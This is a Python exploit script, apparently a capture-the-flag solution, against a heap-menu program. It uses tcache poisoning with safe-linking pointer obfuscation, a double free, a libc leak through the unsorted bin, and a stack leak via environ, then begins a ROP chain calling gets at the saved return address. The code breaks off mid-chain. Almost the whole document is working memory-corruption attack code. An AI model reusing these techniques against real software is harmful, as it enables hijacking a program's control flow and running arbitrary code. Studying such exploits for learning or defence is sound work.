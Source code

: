 ```python

    edit(0, p64(obf(CHUNK[0], CHUNK[0])), p64(obf(CHUNK[0], HEAP_BASE+0x10)))
    add(0, p64(obf(CHUNK[0], HEAP_BASE+0x10)))
    p = b""
    p += p16(0) # 0x20
    p += p16(1) # 0x30
    p += p16(0) # 0x40
    p += p16(0) # 0x50
    p += p16(0) # 0x60
    p += p16(0) # 0x70
    p += p16(0) # 0x80
    p += p16(7) # 0x90 (fill counts a.k.a tcachebins counter for 0x90 bins )

    add(4, p)

    delete(1)
    edit(1, p8(0x06), p64(obf(CHUNK[1], CHUNK[0]-0x10)))
    add(1, p64(obf(CHUNK[1], CHUNK[0]-0x10)))
    add(5, p64(0)+p64(0x30*3 + 1))

    delete(0) # unsorted bin

    resp = edit(0, write_data=False)
    LEAKED_LIBC = u64(resp.ljust(8, b"\x00"))
    libc.address = LEAKED_LIBC - 0x1f6ce0
    print("LEAKED_LIBC                  :", hex(LEAKED_LIBC))
    print("libc.address                 :", hex(libc.address))
    print(f"{hex(libc.symbols['environ'])=}")

    # used up unsorted bins 
    add(0, b"AAAA\x00")
    add(1, b"BBBB\x00")
    add(2, b"CCCC\x00")

    delete(0) # delete 0, to give an
    delete(1)
    
    # overwrite the bk pointer 
    edit(1, p64(obf(CHUNK[1], CHUNK[0])), p64(0)+p64(0xdeadbeef))
    
    # double free
    delete(1) 
    edit(1, p64(obf(CHUNK[1], CHUNK[1])), p64(obf(CHUNK[1], libc.symbols["environ"]-0x10)))
    add(1, p64(obf(CHUNK[1], libc.symbols["environ"]-0x10)))

    add(6, b"B"*(0x10-1)+b"|")
    resp = edit(6, write_data=False)
    LEAKED_STACK = u64(resp.split(b"|")[1][:6].ljust(8, b"\x00"))
    STACK_SAVED_RIP_ORDER = LEAKED_STACK - 0x160
    print("LEAKED_STACK             :", hex(LEAKED_STACK))
    print("STACK_SAVED_RIP_ORDER    :", hex(STACK_SAVED_RIP_ORDER))


    delete(1)
    delete(2)
    
    edit(2, p64(obf(CHUNK[2],CHUNK[1])), p64(obf(CHUNK[2], STACK_SAVED_RIP_ORDER&~0xF)))
    add(1, b"DUMMY")
    p = b""
    p += p64(STACK_SAVED_RIP_ORDER-0x20)
    p += p64(libc.search(asm("pop rdi; ret;")).__next__())
    p += p64(STACK_SAVED_RIP_ORDER-0x20)
    p += p64(libc.symbols["gets"])
```